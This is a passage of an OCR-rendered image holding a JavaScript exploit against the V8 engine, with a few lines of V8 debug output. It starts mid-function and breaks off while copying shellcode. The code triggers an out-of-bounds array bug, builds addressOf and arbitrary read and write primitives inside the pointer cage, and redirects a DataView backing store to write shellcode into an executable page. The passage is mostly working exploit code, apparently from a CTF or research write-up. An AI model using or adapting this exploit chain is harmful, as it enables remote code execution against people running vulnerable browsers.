 ```
    trigger(_=>_);
}


// p(victim_array);
// p(rw_array);
// p(obj2);
// p(target_addr_array);

let evil = trigger(
    _=>{
        obj3.c = 1.1;
        for (let i in obj1){}
    }
)
if ((typeof evil) != "object"){
    console.log("[x] oob fail, check again!");
}else {
    console.log("[+] oob success");
    // p(victim_array);
    // p(rw_array);
    // p(obj2);
    // p(target_addr_array);

    function addressOf(obj){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(rw_array_element_start_addr+1,0x3d000);
        rw_array[0] = obj;
        return f64_to_u32l(evil[0]);
    }


    function cage_read(addr){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        return f64_to_u64(evil[0]);
    }

    function cage_write_4bytes(addr,val){
        let org_val = cage_read(addr);
        // console.log(((org_val)));
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        evil[0] = lh_u32_to_f64(val,Number(org_val >> 32n));

    }

    function cage_write_8bytes(addr,val){
        victim_array[0x2000 / 8 + 1] = lh_u32_to_f64(addr+1-8,0x3d000);
        evil[0] = u64_to_f64(val);
    }

    function copy_shellcode_to_rwxpage(){
        var buffer = new ArrayBuffer(0x20);
        var data_view = new DataView(buffer);
        var data_view_addr = addressOf(data_view);
        // p(data_view);
        var backing_store_addr = data_view_addr-0x44-1+0x20;
        logg("data_view_addr",(data_view_addr));
        logg("backing_store_addr",(backing_store_addr));
        // // p(data_view);
        cage_write_8bytes(backing_store_addr,rwx_page_addr);

        for (let i = 0; i < 3; i++){
            data_view.setBigInt64(0+i*0x8,shellcode[i],true);
        }
```

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any